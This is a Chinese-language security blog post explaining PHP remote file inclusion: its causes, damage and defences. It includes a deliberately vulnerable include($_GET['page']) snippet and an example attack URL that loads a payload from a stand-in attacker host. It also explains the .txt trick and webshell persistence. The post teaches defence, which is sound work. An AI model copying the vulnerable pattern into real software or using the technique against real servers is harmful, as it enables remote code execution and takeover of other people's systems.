 #  服务器被控的幕后黑手：远程文件包含漏洞深度揭秘   
原创 VlangCN  HW安全之路   2025-04-17 11:13  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/Bvow4Cv9oZ3eTrDwp7Jvu3HrLl577luB3N20eQv69BlgDY1wRI95fZaWicCXUSy9h0KWGPnkUgN7Jz0sGiaHOF2g/640?wx_fmt=gif&from=appmsg "")  
  
  
在网络安全的世界里，文件包含漏洞是一种常见却危险的安全隐患。今天，我们将以通俗易懂的方式，深入浅出地介绍远程文件包含漏洞的原理、危害及防护方法。  
## 什么是远程文件包含？  
  
想象一下，你的网站就像一本活页笔记本，可以随时插入新的页面。正常情况下，你只会插入自己写的笔记页。但如果笔记本有缺陷，让别人可以往里面插入任意页面，这就相当于远程文件包含漏洞。  
  
**远程文件包含**  
（Remote File Inclusion，简称RFI）是指网站应用程序在加载文件时，错误地包含了来自外部服务器的恶意文件，导致代码被执行的安全漏洞。  
## 远程文件包含与本地文件包含的区别  
  
远程文件包含与本地文件包含（Local File Inclusion，LFI）本质上是同一类漏洞，区别在于：  
- **本地文件包含**  
：只能包含服务器上已存在的文件  
  
- **远程文件包含**  
：可以包含来自互联网任何位置的文件  
  
这就像是笔记本的缺陷不仅让你可以翻看本不该看的内部笔记（LFI），还能让别人直接往你的笔记本中插入恶意内容（RFI）。  
## 漏洞产生的技术原因  
  
在PHP中，远程文件包含漏洞主要由以下因素导致：  
1. **PHP配置问题**  
：当allow_url_include  
设置为ON时，include()  
和require()  
函数可以加载远程URL  
  
1. **未过滤的用户输入**  
：开发者直接将用户输入传递给文件包含函数  
  
1. **错误的权限设置**  
：Web服务器拥有过高的系统权限  
  
代码层面，典型的漏洞代码可能是这样的：  
```
<?php
// 危险代码示例
$page = $_GET['page'];
include($page);
?>

```  
  
如果用户可以控制page  
参数，就可能构造这样的URL：  
```
http://vulnerable-site.com/index.php?page=http://attacker-site.com/malicious-file.txt

```  
## 远程文件包含的危害  
  
远程文件包含漏洞的危害极其严重，相当于将服务器的钥匙直接交给了攻击者：  
1. **执行任意代码**  
：攻击者可以在目标服务器上运行任何PHP代码  
  
1. **获取服务器控制权**  
：通过上传WebShell获得持久访问权限  
  
1. **数据泄露**  
：可以访问服务器上的敏感信息  
  
1. **横向移动**  
：作为攻击内网其他系统的跳板  
  
1. **网站篡改**  
：修改网站内容，植入恶意代码  
  
## 远程包含的特殊情况  
  
在理解远程文件包含时，有几个重要的技术细节需要注意：  
1. **文件解析顺序**  
：如果包含的是远程PHP文件，该文件会先被远程服务器解析，然后将解析结果传给目标服务器。这就是为什么攻击者通常使用.txt等非PHP扩展名来避免代码被提前执行。  
  
1. **环境信息差异**  
：包含远程文件时，执行环境是目标服务器的环境，但如果包含的是已解析的内容（如PHP文件），则反映的是远程服务器的信息。例如，包含远程的phpinfo.php文件时，显示的是远程服务器的PHP配置，而非目标服务器的配置。  
  
## 如何防御远程文件包含漏洞？  
  
防御远程文件包含漏洞，就像是修复你的笔记本，确保只有授权的页面才能被插入：  
### 开发者层面  
1. **禁用远程包含**  
：在php.ini中设置allow_url_include = Off  
  
1. 输入验证：严格检查和过滤所有用户输入  
```
// 安全的代码示例
$allowed_pages = ['home', 'about', 'contact'];
$page = $_GET['page'];
if(in_array($page, $allowed_pages)) {
    include($page . '.php');
} else {
    include('home.php');  // 默认页
}

```  
  
  
1. **使用绝对路径**  
：避免使用相对路径包含文件  
  
1. **文件扩展名检查**  
：确保只包含预期的文件类型  
  
### 系统管理员层面  
1. **最小权限原则**  
：确保web服务器运行在最低必要权限下  
  
1. **部署WAF**  
：使用Web应用防火墙过滤恶意请求  
  
1. **定期更新**  
：保持系统和应用程序的最新安全补丁  
  
1. **安全监控**  
：实施入侵检测系统，监控异常活动  
  
## 总结  
  
远程文件包含漏洞虽然看似简单，却能造成严重的安全后果。理解其工作原理并采取适当的防御措施，是保护Web应用安全的重要一环。  
  
作为开发者，我们应该始终保持安全意识，将输入验证和安全编码实践融入日常开发工作中。记住："永远不要信任用户输入"是网络安全的黄金法则之一。  
  
本文仅供安全研究和学习交流使用，旨在帮助开发者和管理员提高系统安全性。  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/Bvow4Cv9oZ0BfboLjHF8RcNM8wdoZl2hbZBZVwoRZaNYrgwKDmnUsdnHhEkK6c2iaxGpD0D7llpeM09WEQHyAqA/640?wx_fmt=gif&from=appmsg "")  
  
**一行代码引发的灾难：PHP文件包含漏洞全面剖析与防御**  
  
**日志文件被改了怎么办？Linux chattr 命令让攻击者无从下手！**  
  
**关注我们的公众号，并给本文点赞，点个推荐支持一下吧！您的每一个小红心，都是我坚持创作优质内容的最大动力**  
  
  
